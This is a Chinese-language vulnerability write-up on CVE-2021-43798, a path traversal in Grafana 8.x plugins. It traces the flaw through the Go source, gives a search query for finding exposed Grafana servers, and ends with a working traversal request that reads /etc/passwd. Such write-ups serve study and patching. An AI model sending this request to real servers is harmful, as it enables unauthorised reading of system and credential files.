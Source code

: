 # Grafana plugins 任意文件读取漏洞 CVE-2021-43798

## 漏洞描述

Grafana存在任意文件读取漏洞，通过默认存在的插件，可构造特殊的请求包读取服务器任意文件

## 漏洞影响

<a-checkbox checked>Grafana 8.x</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Grafana_Labs-公司产品"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1638885570573-25d2b257-36c8-43a7-bf8f-f552193f6649.png)

下载源码进行本地分析

```php
https://codeload.github.com/grafana/grafana/zip/refs/tags/v8.3.0
```

根据漏洞找到 api.go 中的请求路径

![img](../../../.vuepress/public/img/1638885654432-3d019c1a-81fd-429d-9667-6c1e829b694e.png)

```php
r.Get("/public/plugins/:pluginId/*", hs.getPluginAssets)
```

跟踪对应的 getPluginAssets 方法

![img](../../../.vuepress/public/img/1638885718491-08933f1d-ee0f-4eaa-b5d7-859c4889d2b7.png)

从请求路径中获取 `/public/plugins/` 后的参数赋值给 `pluginID,` 然后再被拼接至 `pluginFilePath` 进入文件读取片段

```go
requestedFile := filepath.Clean(web.Params(c.Req)["*"])
pluginFilePath := filepath.Join(plugin.PluginDir, requestedFile)
```

![img](../../../.vuepress/public/img/1638886241407-a47b7e8e-47fb-4481-8719-c532b51a5fa0.png)

也就是说通过默认存在的插件来拼接文件路径构造请求进行文件读取

```go
plugin, exists := hs.pluginStore.Plugin(c.Req.Context(), pluginID)
if !exists {
		c.JsonApiErr(404, "Plugin not found", nil)
		return
	}
```

插件路径 `public/app/plugins/panel`

![img](../../../.vuepress/public/img/1638886549610-16b0f045-996a-4e0d-86db-4b6c83a3a989.png)

构造请求

```go
/public/plugins/welcome/../../../../../../../../../etc/passwd
```

![img](../../../.vuepress/public/img/1638886726559-aa047e67-0bca-4b8c-bb07-4a9af6226e6e.png)
